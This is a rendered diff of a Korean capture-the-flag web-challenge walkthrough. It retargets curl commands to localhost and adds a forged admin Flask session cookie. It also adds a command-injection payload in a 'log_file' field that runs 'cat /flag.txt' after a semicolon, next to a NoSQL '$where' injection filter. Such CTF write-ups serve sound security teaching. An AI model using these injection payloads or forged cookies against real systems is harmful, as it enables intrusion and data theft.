

Before and after one commit to dsaedsae/new_ctf_Web, a Markdown page: SOLUTION_WALKTHROUGH.md, 3 parts joined by grey strips. Shown at 96% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/SOLUTION_WALKTHROUGH.md
+++ b/SOLUTION_WALKTHROUGH.md
@@ -558,15 +558,15 @@ flask-unsign --sign \
 # robots.txt에서 /api/admin/이 있다고 했음
 # 일반적인 admin API 패턴 시도
 
-curl -X GET http://ctf.challenge.com:5000/api/admin \
-  -H "Cookie: session=.eJyrVoovSC3KTcxLzStRsiopKk3VUSrKz0lVslIqyS9OVdJRKi1OLYJx48GcWgAOdBMb.ZqK4QA.YpN3fG8Hk_4sR2Ji7wZ1sM3Cx5d"
+curl -X GET http://localhost:5000/api/admin \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90"
 ```
 
 **결과**: 404 Not Found
 
 ```bash
 # 다른 패턴 시도
-curl -X GET http://ctf.challenge.com:5000/api/admin/users \
+curl -X GET http://localhost:5000/api/admin/users \
   -H "Cookie: session=..."
 ```
 
@@ -578,7 +578,7 @@ curl -X GET http://ctf.challenge.com:5000/api/admin/users \
 > 생각해보니 서비스 발견 API가 있었잖아? /api/v2/services/admin/endpoints를 시도해볼까?"
 
 ```bash
-curl http://ctf.challenge.com:5000/api/v2/services/admin/endpoints
+curl http://localhost:5000/api/v2/services/admin/endpoints
 ```
 
 **결과**: 404 (admin 서비스는 등록되지 않음)
@@ -706,8 +715,8 @@ curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
 
 ```bash
 # log_file 파라미터 시도
-curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
-  -H "Cookie: session=..." \
+curl -X POST http://localhost:5000/api/admin/db/migrate \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90" \
   -H "Content-Type: application/json" \
   -d '{"filter": {"$where": "function() { return true; }"}, "log_file": "/tmp/test.log"}'
 ```
@@ -727,6 +736,20 @@ curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
 >
 > 만약 log_file 파라미터가 shell 명령어에 직접 들어간다면...
 > Command Injection이 가능할 것 같다!"
+
+### BLIND_RCE=true라면:
+
+```bash
+# 방법 1: 파일로 저장 후 읽기
+curl -X POST http://localhost:5000/api/admin/db/migrate \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90" \
+  -d '{
+    "filter": {"$where": "function() { return true; }"},
+    "log_file": "/dev/null; cat /flag.txt > /app/static/flag.txt"
+  }'
+
+# 브라우저나 curl로 접근
+curl http://localhost:5000/static/flag.txt
 
 ---
 
````
Also changed, not shown: other parts of SOLUTION_WALKTHROUGH.md (+26 -17 lines).
